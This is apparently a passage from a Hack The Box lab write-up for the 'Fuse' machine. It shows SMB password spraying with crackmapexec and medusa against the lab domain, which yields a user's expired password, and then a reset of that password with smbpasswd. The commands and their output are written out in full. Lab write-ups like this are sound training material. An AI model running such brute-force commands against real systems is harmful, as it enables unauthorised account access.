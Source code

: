 We can't use Hydra with this machine. It will error out when trying to brute force SMB and if you try SMB v2, after compiling a version with this support, it will not report the specific SMB error we are looking for. To do that, we need to use crackmapexec which illustrates that sometimes using a range of tools is a good option. Using crackmapexec, we get an error for the user tlavel and password Fabricorp01 that the STATUS\_PASSWORD\_MUST\_CHANGE.

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Fuse]
└──╼ $crackmapexec smb fuse.htb -u users.txt -p fabricorp_wordlist.txt
SMB 10.129.2.5 445 FUSE [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SM
Bv1:True)
SMB 10.129.2.5 445 FUSE [-] fabricorp.local\pmerton:PaperCut STATUS_LOGON_FAILURE
SMB 10.129.2.5 445 FUSE [-] fabricorp.local\tlavel:LONWK015 STATUS_LOGON_FAILURE
SMB 10.129.2.5 445 FUSE [-] fabricorp.local\tlavel:mountain STATUS_LOGON_FAILURE
SMB 10.129.2.5 445 FUSE [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

An alternative to crackmapexec is medusa which can be used with the the user file \(-U users.txt\), the password file \(-P fabricorp\_wordlist.txt\) and the SMB NT module \(-M smbnt\). This gives the following output:

```bash
┌─[rin@parrot]─[~/boxes/Fuse]
└──╼ $medusa -h fuse.htb -U users.txt -P fabricorp_wordlist.txt -M smbnt
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
ACCOUNT CHECK: [smbnt] Host: fuse.htb (1 of 1, 0 complete) User: pmerton (1 of 5, 0 complete) Password: PaperCut (1 of 45 complete)
ACCOUNT CHECK: [smbnt] Host: fuse.htb (1 of 1, 0 complete) User: pmerton (1 of 5, 0 complete) Password: GRAYSCALE (2 of 45 complete)
ACCOUNT CHECK: [smbnt] Host: fuse.htb (1 of 1, 0 complete) User: pmerton (1 of 5, 0 complete) Password: papercut (3 of 45 complete)
ACCOUNT CHECK: [smbnt] Host: fuse.htb (1 of 1, 0 complete) User: pmerton (1 of 5, 0 complete) Password: sthompson (4 of 45 complete)
…
ACCOUNT CHECK: [smbnt] Host: fuse.htb (1 of 1, 0 complete) User: tlavel (2 of 5, 1 complete) Password: Fabricorp01 (18 of 45 complete)
ACCOUNT FOUND: [smbnt] Host: fuse.htb User: tlavel Password: Fabricorp01 [SUCCESS (0x000224:STATUS_PASSWORD_MUST_CHANGE)]
…
```

Whichever way you do it, the end result is that the password for tlavel, Fabricorp01 needs to be reset. We can do this with smbpasswd:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Fuse]
└──╼ $smbpasswd -U tlavel -r fabricorp.local
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel
```

If we test the new password Fabricorp02 with crackmapexec, we get:
